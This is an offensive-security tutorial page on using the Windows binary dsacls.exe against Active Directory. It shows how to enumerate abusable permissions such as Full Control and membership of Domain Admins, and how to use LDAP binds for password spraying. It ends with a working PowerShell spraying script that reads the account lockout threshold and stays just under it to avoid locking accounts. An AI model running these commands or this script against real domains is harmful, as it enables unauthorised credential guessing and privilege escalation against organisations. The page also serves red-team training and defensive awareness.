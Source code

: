 ```yaml
---
description: Enumeration, living off the land
---
```


# Enumerating AD Object Permissions with dsacls

It is possible to use a native windows binary (in addition to powershell cmdlet `Get-Acl`) to enumerate Active Directory object security persmissions. The binary of interest is `dsacls.exe`.

Dsacls allows us to display or modify permissions (ACLS) of an Active Directory Domain Services (AD DS).

## Execution

Let's check if user `spot` has any special permissions against user's `spotless` AD object:

{% code title="attacker@victim" %}
```csharp
dsacls.exe "cn=spotless,cn=users,dc=offense,dc=local" | select-string "spot"
```
{% endcode %}

Nothing useful:

![](../../.gitbook/assets/screenshot-from-2019-03-19-22-46-47.png)

Let's give user spot `Reset Password` and `Change Password` permissions on `spotless` AD object:

![](../../.gitbook/assets/screenshot-from-2019-03-19-22-46-04.png)

...and try the command again:

{% code title="attacker@victim" %}
```csharp
dsacls.exe "cn=spotless,cn=users,dc=offense,dc=local" | select-string "spot"
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-03-19-22-44-21.png)

### Full Control

All well known (and abusable) AD object permissions should be sought here. One of them is `FULL CONTROL`:

{% code title="attacker@victim" %}
```csharp
dsacls.exe "cn=spotless,cn=users,dc=offense,dc=local" | select-string "full control"
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-03-19-22-54-36.png)

### Add/Remove self as member

{% code title="attacker@victim" %}
```csharp
dsacls.exe "cn=domain admins,cn=users,dc=offense,dc=local" | select-string "spotless"
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-03-19-22-57-50.png)

### WriteProperty/ChangeOwnerShip

![](../../.gitbook/assets/screenshot-from-2019-03-19-23-00-04.png)

Enumerating AD object permissions this way does not come in a nice format that can be piped between powershell cmd-lets, but it's still something to keep in mind if you do not the ability to use tools like powerview or ActiveDirectory powershell cmdlets or if you are trying to `LOL`.

For more good privileges to be abused:

{% content-ref url="privileged-accounts-and-token-privileges.md" %}
[privileged-accounts-and-token-privileges.md](privileged-accounts-and-token-privileges.md)
{% endcontent-ref %}

{% content-ref url="abusing-active-directory-acls-aces.md" %}
[abusing-active-directory-acls-aces.md](abusing-active-directory-acls-aces.md)
{% endcontent-ref %}

## Password Spraying Anyone?

As a side note, the `dsacls` binary could be used to do LDAP password spraying as it allows us to bind to an LDAP session with a specified username and password:

{% code title="incorrect logon" %}
```csharp
dsacls.exe "cn=domain admins,cn=users,dc=offense,dc=local" /user:spotless@offense.local /passwd:1234567
```
{% endcode %}

![Logon Failure](../../.gitbook/assets/screenshot-from-2019-03-19-23-09-12.png)

{% code title="correct logon" %}
```csharp
dsacls.exe "cn=domain admins,cn=users,dc=offense,dc=local" /user:spotless@offense.local /passwd:123456
```
{% endcode %}

![Logon Successful](../../.gitbook/assets/screenshot-from-2019-03-19-23-09-59.png)

### Dirty POC idea for Password Spraying:

{% code title="attacker@victim" %}
```csharp
$domain = ((cmd /c set u)[-3] -split "=")[-1]
$pdc = ((nltest.exe /dcname:$domain) -split "\\\\")[1]
$lockoutBadPwdCount = ((net accounts /domain)[7] -split ":" -replace " ","")[1]
$password = "123456"

# (Get-Content users.txt)
"krbtgt","spotless" | % {
    $badPwdCount = Get-ADObject -SearchBase "cn=$_,cn=users,dc=$domain,dc=local" -Filter * -Properties badpwdcount -Server $pdc | Select-Object -ExpandProperty badpwdcount
    if ($badPwdCount -lt $lockoutBadPwdCount - 3) {
        $isInvalid = dsacls.exe "cn=domain admins,cn=users,dc=offense,dc=local" /user:$_@offense.local /passwd:$password | select-string -pattern "Invalid Credentials"
        if ($isInvalid -match "Invalid") {
            Write-Host "[-] Invalid Credentials for $_ : $password" -foreground red
        } else {
            Write-Host "[+] Working Credentials for $_ : $password" -foreground green
        }        
    }
}
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-03-20-00-10-10.png)

## References

{% embed url="https://support.microsoft.com/en-gb/help/281146/how-to-use-dsacls-exe-in-windows-server-2003-and-windows-2000" %}
